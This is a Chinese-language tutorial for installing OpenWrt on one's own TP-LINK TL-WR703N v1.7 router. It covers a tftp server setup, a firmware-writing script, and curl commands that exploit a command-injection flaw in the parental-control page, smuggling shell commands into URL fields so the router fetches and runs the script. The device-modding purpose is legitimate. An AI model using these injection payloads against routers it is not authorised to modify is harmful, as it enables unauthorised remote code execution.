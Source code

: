 # TP-LINK TL-WR703N v1.7 openwrt flashing

TP-LINK TL-WR703N是一个小型的路由器，可以有线转WiFi，3G转WiFi，很多人拿它刷openwrt系统，然后可以在上面各种搞事。

### V1.7以前
通常刷openwrt的做法是，
- 下载一个openwrt [factory固件](http://downloads.openwrt.org/attitude_adjustment/12.09/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin)
- 打开路由器，
- 笔记本连接路由器发出来的WiFi，比如：TP-LINK-90-1B-18
- 在浏览器输入192.168.1.1，选择左边“系统工具”-“软件升级”-“浏览”
- 找到刚刚下载的镜像bin文件，确定
- 然后就会自动把openwrt刷到板子里边了

### V1.7以后
然而！上面的方法只有在2012年12月生产的WR703N（型号在FW build 121204以后的，这个在路由器管理界面可以看到，如果你的型号跟我的一样是3.17.1 Build 140120 Rel.56593n，那么恭喜你中奖了，只能通过下面这种方式或者TTL硬件方式刷openwrt）上才有用，在之后的板子上，选择完bin文件会提示“上传的文件与硬件版本不符”，导致无法从web管理界面刷写系统！

原因是，2012年12月之后的系统升级，对bin文件做了RSA签名校验，无法刷第三方的系统。

一番搜索之后发现有个[国外的牛人](https://pastebin.com/0wzMthfr)利用TP-LINK家长控制的漏洞，让路由板执行一些代码，成功刷写openwrt系统，这个方法的英文版也被放到了openwrt wr703n的官方wiki上，可以说是相当靠谱了，国内有人也整理了一个[中文版](https://boweihe.me/2015/11/02/wr703n-v1-7-%E7%A0%B4%E8%A7%A3openwrt%EF%BC%88%E6%8F%90%E7%A4%BA%E5%AF%86%E7%A0%81%E9%94%99%E8%AF%AF%E7%AD%89%E9%97%AE%E9%A2%98%E7%9A%84%E8%A7%A3%E5%86%B3%EF%BC%89/)，但有些步骤还是不够详细，于是我整理了一个完整的版出来，让大家少踩一些坑。windows的同学可以参考这个中文版，不过里边有些链接失效了，可以参考我这篇去找对应的工具。

### 搭建tftp服务器
因为我们会先把镜像下载并处理好放在一个ftp服务器上，所以需要另一台电脑扮演这个角色
- 以MacOS为例，MacOS是内置了tftp服务器的，不需要另外安装，
- 默认的ftp服务器会把将`/private/tftpboot`这个目录作为根目录
- 修改这个目录的权限

```shell
sudo chmod 777 /private/tftpboot
sudo chmod 777 /private/tftpboot/*
```

- 启动tftp服务

```shell
sudo launchctl load -F /System/Library/LaunchDaemons/tftp.plist
sudo launchctl start com.apple.tftpd
```

- 测试，在另一台电脑上，以Ubuntu为例，安装tftp客户端

```shell
cwh@cwh-Matrimax-PC:sudo apt-get install tftp
cwh@cwh-Matrimax-PC:~$ tftp
(to) 192.168.2.210
tftp> get aa
```

把Ubuntu和mac放在一个局域网里，mac的ip是192.168.2.210，在mac的`/private/tftpboot`目录下有一个名为aa的文件，执行`get aa`之后，会发现Ubuntu的home目录下多了一个aa文件，也就是文件传送成功了。

### 准备工具
- *Nix系统下curl，dd，都是自带的，不用下载，
- 下载busybox，这个是用来在wr703n上执行dd和reboot命令用的，默认的命令行执行不了

```shell
curl https://busybox.net/downloads/binaries/1.21.1/busybox-mips > busybox
```

链接有可能失效，可以谷歌搜索busybox binary download，下载mips版本的

- 下载openwrt固件并拆分成两份（因为wr703n的内存很小，可能传输的时候传不了整个文件）

```shell
curl https://downloads.openwrt.org/snapshots/trunk/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin -o openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i1 bs=1 count=1048576
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i2 bs=1 skip=1048576
```

- 将busybox, 拆开的固件i1, i2放到tftp服务器目录`/private/tfboot`下



### 编写Hack脚本
- 进入tftp服务器目录
- 新建文件aa（很随意的一个名字），里边内容为：

```shell
cd /tmp
tftp -gl i1 192.168.1.100
tftp -gl i2 192.168.1.100
tftp -gl busybox 192.168.1.100
chmod 755 busybox
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync
reboot -f
```

解释一下每行代码

```shell
cd /tmp
tftp -gl i1 192.168.1.100 # 把i1从tftp服务器下载下来，这里的ip应该是，你的tftp服务器连接路由器之后，ifconfig看到的ip
tftp -gl i2 192.168.1.100 # 把i2从tftp服务器下载下来
tftp -gl busybox 192.168.1.100 # 把busybox从tftp服务器下载下来
chmod 755 busybox  # 修改busybox权限以执行命令
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync # 将i1写入磁盘分区
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync # 将i2写入磁盘分区
reboot -f # 重启，会启动openwrt
```
至此，你的tftp目录下应该有4个文件：i1, i2, aa, busybox，缺一不可

### Hack into TL-WR703N
这个方法是利用TPLINK家长控制漏洞，以curl的方式执行命令，让路由器从tftp服务器上下载脚本，执行命令，从而将openwrt固件写入路由器

> 【警告】以下步骤可能导致你的路由器变砖，请确认当前的路由器固件版本是3.17.1 Build 140120. 下述全过程请勿断开连接或是断开电源，本人不对产生的任何后果负责！另外，每一步都很重要，别忽略其中任何一步。一旦变砖，请用3.3V的串口线抢救

- 首先长按reboot按钮将路由器恢复出厂设置
- 将tftp服务器（这里是Mac）通过WiFi的方式连接到路由器，ifconfig记住自己的ip，我的是192.168.1.100
- 在tftp服务器上（连接到路由器的另外一台机器也行）执行

- 修改密码为admin42

```shell
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=true' 'http://192.168.1.1/'
```

注意这里的192.168.1.1是路由器的ip地址, 这个步骤只会更改路由器家长控制的默认密码，刷完openwrt之后会恢复为openwrt的默认密码的

- 启用家长控制（利用漏洞）

```shell
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?ctrl_enable=1&parent_mac_addr=00-00-00-00-00-02&Page=1'
```

- 让路由器从tftp服务器下载并执行脚本

```shell
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Modify=0&Page=1' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?child_mac=00-00-00-00-00-01&lan_lists=888&url_comment=test&url_0=;cd%20/tmp;&url_1=;tftp%20-gl%20aa%20192.168.1.100;&url_2=;sh%20aa;&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed=1&SelIndex=0&Page=1&rule_mode=0&Save=%B1%A3+%B4%E6'
```

等待大约三分钟，路由器会重启进入openwrt系统，状态灯会闪烁一会儿

### 进入openwrt系统
后边可以参考这位大兄弟写的[教程](https://gist.github.com/ninehills/2627163#%E5%88%9D%E5%A7%8B%E9%85%8D%E7%BD%AE2)，挺详细的了
